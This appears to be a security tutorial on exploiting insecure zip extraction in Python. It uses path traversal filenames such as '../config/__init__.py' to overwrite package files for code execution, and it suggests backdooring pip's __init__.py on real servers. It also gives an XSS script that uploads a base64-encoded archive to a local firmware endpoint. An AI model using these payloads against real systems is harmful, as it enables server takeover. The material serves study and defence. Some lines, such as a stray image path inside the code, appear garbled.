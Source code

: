 # Exploiting insecure file extraction

### Python

> Compressed file extraction with insecure code vulnerable to path traversal in Python can result in arbitrary code execution by overwriting \_\_init\_\_.py if flask is running in **debug mo**de.

One of the easiest way to achieve [code execution in PHP](https://www.acunetix.com/websitesecurity/upload-forms-threat/) is by exploiting insecurely written file upload handling logic. If you are able to upload arbitrary PHP file by fooling the file upload logic, you can execute arbitrary PHP code. But when it comes to modern web frameworks written in Go, Node.js, Python, Ruby etc. it's a different story. Even if you managed to upload a .py or .js file to the server, requesting these resource via a URL often won't return anything as the route or URL is not exposed by the application. Even if you are able to access the resource by URL, it won't trigger any code execution as it's treated as a static file and just returns plain text source code. This post will explain how to get code execution in one such scenario in Python when you are able to upload compressed files to the server.

Application security rule of thumb is never to trust user input. Don't just limit that concept to RAW HTTP request object that include query params, post body, files, headers etc. Carefully crafted compressed files that looks legit upon extraction can do bad things if it's handled by insecure code. This post is inspired from a [Security Bug](https://github.com/MobSF/Mobile-Security-Framework-MobSF/issues/358) reported to MobSF and tries to cover the technical aspects of the vulnerability and exploitation. Let's take a look into the insecure code.

```

def unzip(zip_file, extraction_path):
    """
    code to unzip files
    """
    print "[INFO] Unzipping"
    try:
        files = [.gitbook/assets/1663788014.png]
        with zipfile.ZipFile(zip_file, "r") as z:
            for fileinfo in z.infolist():
                filename = fileinfo.filename
                dat = z.open(filename, "r")
                files.append(filename)
                outfile = os.path.join(extraction_path, filename)
                if not os.path.exists(os.path.dirname(outfile)):
                    try:
                        os.makedirs(os.path.dirname(outfile))
                    except OSError as exc:  # Guard against race condition
                        if exc.errno != errno.EEXIST:
                            print "\n[WARN] OS Error: Race Condition"
                if not outfile.endswith("/"):
                    with io.open(outfile, mode='wb') as f:
                        f.write(dat.read())
                dat.close()
        return files
    except Exception as e:
        print "[ERROR] Unzipping Error" + str(e)
```

This is a fairly simple python code to extract a zip file and return the list of files in the archive. The zip file comeS to the server after a file upload operation and is send to `unzip()` for extraction. If you look at this line

```
outfile = os.path.join(extraction_path, filename)
```

You can see that `filename` variable is controlled by the user. If we set the value of `filename` to  `../../foo.py`

\>>> import os

\>>> extraction\_path = "/home/ajin/webapp/uploads/"

\>>> filename = "../../foo.py"

\>>> outfile = os.path.join(extraction\_path, filename)

\>>> outfile

'/home/ajin/webapp/uploads/../../foo.py'

\>>> open(outfile, "w").write("print 'test'")

\>>> open("/home/ajin/foo.py", "r").read()

"print 'test'"

By abusing path traversal, we are able to write the file to arbitrary location. In this case into `/home/ajin` instead of `/home/ajin/webapp/uploads/`&#x20;

### Arbitrary Code Execution

We are able to write python code to arbitrary location. Now let's see how we can execute it.\
Consider this sample [vulnerable application](https://github.com/ajinabraham/bad\_python\_extract) written in Python Flask. We will make use of `__init__.py` in Python to achieve code execution. The [docs](https://docs.python.org/2.7/tutorial/modules.html#packages) says&#x20;

> The `__init__.py` files are required to make Python treat the directories as containing packages; this is done to prevent directories with a common name, such as `string`, from unintentionally hiding valid modules that occur later on the module search path. In the simplest case, `__init__.py` can just be an empty file, but it can also execute initialization code for the package or set the `__all__` variable, described later.

So if we can overwrite `__init__.py` file with arbitrary Python code inside a directory of the web application that act as a package, then we can achieve code execution if that package is imported by the application. For our code to execute, a server restart is required in most case. But in this example we are running a Flask server with _debug_ set to _True_ which means every time a Python file is changed, the server will do a restart.

### Crafting the Payload

The vulnerable web app has a directory called [config](https://github.com/ajinabraham/bad\_python\_extract/tree/master/config). There is already `__init__.py` and `settings.py` in this directory. The main server file `server.py` imports `settings.py` from `config` directory, which means if we can write code into `config/__init__.py`, we will be able to achieve code execution. We can craft the payload using the following code:

```
import zipfile
z_info = zipfile.ZipInfo(r"../config/__init__.py")
z_file = zipfile.ZipFile("/home/ajin/Desktop/bad.zip", mode="w")
z_file.writestr(z_info, "print 'test'")
z_info.external_attr = 0777 << 16L
z_file.close()
```

If you look into the [file upload code](https://github.com/ajinabraham/bad\_python\_extract/blob/master/server.py#L62-L63), you can see that the file uploads are extracted into `uploads` directory. We can create a malicious filename with [zipfile.ZipInfo()](https://docs.python.org/2/library/zipfile.html#zipfile.ZipInfo). Here we give the filename as `../config/__init__.py` to overwrite `__init__.py` inside `config` directory. `z_info.external_attr = 0777 << 16L` will set the file permission to read and write by everyone. Let's create a zip file and upload it to the vulnerable web app.

![.gitbook/assets/1663788014.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788014/pmd4iqw6vyy287ajfjk7.png)

We can see that the Flask app reloads and the server console prints **test**. Our code execution is successful.&#x20;

### Exploiting Realworld Applications

In this example, the arbitrary code executed instantly as the Flask server was running on debug mode. This may not be the case elsewhere. You might need to wait until the server is restarted. Another problem is that we don't always know the package directory like `config` in this case. It's easy with an open source project where you have access to the source code. For closed source applications, you can take a good guess for package directories like `conf, config, settings, utils, urls, view, tests, scripts, controllers, modules, models, admin, login` etc. These are some of the common package directories found in some Python web frameworks like Django, Flask, Pyramid, Tornado, CherryPy, web2py etc.

Alternatively, let's say the web application is running inside Ubuntu Linux. The installed and inbuilt Python packages will be available under: `/home/<user>/.local/lib/python2.7/site-packages/pip`. Assuming that the app is running under user directory, you can craft a filename like `../../.local/lib/python2.7/site-packages/pip/__init__.py`. Upon extraction, this creates `__init__.py` file inside `pip` directory. If the app is using virtualenv and let's say the virtualenv directory is `venv`, you can use a filename like `../venv/lib/python2.7/site-packages/pip/__init__.py`. The will brick pip, but next time someone run pip command in the server, your code will execute!&#x20;



### Arbitrary File reading

1. Directory traversal (also known as file path traversal)
2. Un lien symbolique



### XSS

```
<script>
    function base64toBlob(base64Data, contentType) {
      contentType = contentType || "";
      var sliceSize = 1024;
      var byteCharacters = atob(base64Data);
      var bytesLength = byteCharacters.length;
      var slicesCount = Math.ceil(bytesLength / sliceSize);
      var byteArrays = new Array(slicesCount);

      for (
        var sliceIndex = 0;
        sliceIndex < slicesCount;
        ++sliceIndex
      ) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
          bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
      }
      return new Blob(byteArrays, { type: contentType });
    }

    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);

    //File contents encoded to Base64
    var b64file =  "H4sICCzHg2IC/3BvYy50YXIA7c9BCoMwEIXhHCUnSGbiBM8TBIsgrbQp9PhGl9KNlu7+jxneboYXQgzfpizLtvM0lDo97vFVWw5xnMst1E91Z0jT57xnc0wRVaeWTHrrLJuTpKqd8+nau3PerdnT+5/vHMsBAAAAAAAAAAAAAAAAAPBHKwtm0PwAKAAA"

    //Create a Blob object
    var content_type = "application/x-gtar-compressed";
    var blob = base64toBlob(b64file, content_type);

    //Append Blob to FormData
    var formData = new FormData();
    formData.append("file", blob, "file.tar.gz");

    //Send FormData to the server via XMLHttpRequest
    var url = "http://localhost:1337/api/firmware/upload";
    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
  </script>
  
  // cat tar.gzip | base64 - w0
```



